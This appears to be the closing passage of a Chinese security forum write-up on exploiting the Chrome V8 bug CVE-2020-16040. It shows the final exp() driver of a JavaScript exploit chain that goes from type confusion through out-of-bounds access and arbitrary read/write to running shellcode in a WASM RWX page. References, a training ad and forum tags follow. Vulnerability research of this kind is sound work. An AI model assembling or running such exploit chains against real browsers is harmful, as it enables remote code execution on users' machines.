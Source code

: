 ```
}
 
function exp() {
helper = new Helpers();
 
confusion_to_oob();
get_arw();
get_wasm_rwx();
run_shellcode(rwx_page_addr, shellcode);
wasm_function();
}
 
exp();

```

结果演示如下：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210729171653.png)

参考文章
====

*   [我的博客](https://www.0x2l.cn/)
*   [Modern attacks on the Chrome browser : optimizations and deoptimizations (doar-e.github.io)](https://doar-e.github.io/blog/2020/11/17/modern-attacks-on-the-chrome-browser-optimizations-and-deoptimizations/#simplified-lowering)
*   [Slides/chrome_exploitation-zer0con2021.pdf at main · singularseclab/Slides (github.com)](https://github.com/singularseclab/Slides/blob/main/2021/chrome_exploitation-zer0con2021.pdf)
*   [chrome exploitation 解读：CVE-2020-16040 漏洞分析与利用](https://www.anquanke.com/post/id/239996#h3-8)

这里改下：

[[培训] 优秀毕业生寄语：恭喜 id 咸鱼炒白菜拿到远超 3W 月薪的 offer，《安卓高级研修班》火热招生！！！](https://zhuanlan.kanxue.com/article-16096.htm)

最后于 1 小时前 被 0x2l 编辑 ，原因：

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#补丁对比](forum-150-1-164.htm) [#Windows](forum-150-1-160.htm)